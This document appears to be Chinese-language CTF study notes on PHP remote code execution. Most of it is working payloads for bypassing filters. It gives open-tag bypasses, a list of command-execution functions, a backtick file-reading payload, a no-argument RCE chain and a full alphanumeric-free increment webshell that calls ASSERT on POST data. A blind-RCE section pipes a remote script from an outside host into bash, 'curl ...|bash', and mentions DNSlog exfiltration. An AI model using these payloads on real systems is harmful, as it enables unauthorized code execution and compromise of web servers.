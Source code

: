 ## 参数名字中带有非法字符
如果我们的输入参数中存在非法字符 `_`,那么我们就需要通过把我们的原文中的 `_` 改写为 `[,.` 进行一次转换后，才能得到最终的参数。

## Escapeshellarg 和 Escapteshellcmd

### Php 头过滤
1. 采用 `script` 方法绕过：`<script language="php"> phpinfo()<script>`
2. 采用短标签方法绕过：`<?='Hello World'?>`,

关键字过滤
### 过滤函数关键字：
方法一：换用心的函数：
1. System
使用我们的 system 函数执行的时候，会有一定的回显

2. Exec
使用我们的 exec 的函数执行的时候，没有任何的回显

3. 反引号
使用我们的反引号执行的时候，只存在一个是否执行的回显

4. Passthru

5. Proc_open

6. Popen

7. Pcntl_exec


## 过滤我们的参数：
**注意，我们再进行 RCE 的时候，记得要给我们的语句打上分号**
我们可以采用我们的无参数 RCE 相关的函数，来实现我们的无参数相关构造。
```
print_r(end(pos(get_defined_vars())));
```

## System 命令执行函数：
方法一：通过我们的反引号绕过：
```
?code=var_dump(`nl%20/f????????????????`)
```


方法二：通过我们的类似指令来执行：
```
passthru() exec() shell_exec() popen() proc_open() pcntl_exec(),system()
```

方法三：
```
eval()相关执行：
1. 直接输入想要执行的语句
2. $_GET[_function_](_arg_),在我们的长度不足的时候，我们可以考虑使用这个方法，其中如果我们的【】被过滤，我们可以改用{}。${_GET}{_function_}(_arg_)
```


##  关键字过滤

### Level 2（无参数 RCE）


### level 3（无字母，数字 RCE）
方法六：自增绕过：
```cpp
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
 
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;
 
$_=$$____;
$___($_[_]); // ASSERT ($_POST[_]);
```


## 无回显
1. 利用管道符 `>` 输出到 `1.txt`
2. 利用请求带出，把我们当前的结果作为一个参数带出到我们的外部服务器当中，再去通过我们的外部服务器相关回显来进行最终的计算。
```
--http发送请求
curl http://d.y1ng.vip:12390/dev.txt|bash
--dnslog带出（不能发出http请求）

--wget命令注入
```

3. 时间忙注
```
截取函数：
1. cut -c
2. ${}
判断函数：
sleep()
```

